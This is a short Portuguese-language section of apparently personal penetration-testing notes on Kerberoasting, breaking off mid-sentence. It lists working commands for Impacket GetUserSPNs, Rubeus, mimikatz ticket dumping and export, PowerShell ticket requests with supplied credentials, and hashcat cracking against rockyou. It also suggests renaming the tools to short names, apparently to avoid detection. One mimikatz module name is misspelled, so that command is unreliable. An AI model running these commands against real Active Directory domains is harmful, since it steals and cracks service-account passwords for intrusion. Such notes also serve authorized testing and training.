 ## Kerberoasting

Se atentar a este ponto, visto que enumerando localmente na máquina, são retornados vários SPNs pré configurados do próprio domínio. Temos que enumerar os que estão associados a uma conta de serviço (user), pois a probabilidade de ter uma senha fraca é maior.

Impacket

    impacket-GetUsersSPNs -request -dc-host <hostname_dc> <dominio/user:senha>

Rubeus

Rubeus.exe=r.exe

    ./r.exe kerberoast /domain:<domain.local> /dc:<hostname_dc>

ou

    ./r.exe kerberoast /outfile:kerberoastables.txt /domain:<dominio.local> /dc:<hostname_dc>
    hashcat -m 13100 -a 0 ticket.kirbi /usr/share/wordlists/rockyou.txt

Mimikatz

mimikatz.exe=m.exe

Verificando os tickets existentes na máquina

```
./m.exe
privilege::debug
sekurlsa::tickets
```
Requisitando os tickets na máquina:

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList
'HTTP/dominio.serv.com'

klist
```
Pode ser que o comando não funcione pelo fato de a credencial não ter sido enviada pela rede, então temos de fazer o seguinte:
```
$pass = ConvertTo-SecureString '<senha>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('<dominio\usuario>',$pass)
get-domainspnticket -spn IMAP/EXCH01.htb.local -credential $cred
```
Depois de verificado por meio do klist que os tickets estão importados na memória, devemos utilizar o mimikatz para exportar eles:

```
./m.exe
privilege::debug
kerbertos::list /export
```
E para quebrar os hashes de senha, temos de fazer o seguinte:
